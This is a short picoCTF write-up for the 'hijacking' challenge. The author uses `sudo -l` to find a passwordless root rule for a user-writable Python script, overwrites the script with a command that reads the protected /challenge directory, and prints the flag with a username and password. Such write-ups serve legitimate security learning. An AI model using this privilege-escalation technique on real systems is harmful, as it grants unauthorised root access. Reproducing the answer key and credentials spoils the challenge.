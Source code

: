 # hijacking
Points: 200

I do not do root escalation all that much so initially I was stuck until
I found a writeup for a different ctf that used `sudo -l` to show commands
that could be executed as root without a password.

Executing `sudo -l` in the ssh shell outputs:
```
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can see that the command `/usr/bin/python3 /home/picoctf/.server.py` can
be executed with root privileges **WITHOUT** a password.

So we edit `.server.py` using `vi`, and modify it to peek into the /challenge
directory, which can only be accessed with root permissions.

Replacing the contents of `.server.py` with:
```python
import os
os.system("cat /challenge/*")
```
Then executing the file:
```
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
{"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "HYGhWsmPyf"}
```

# Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`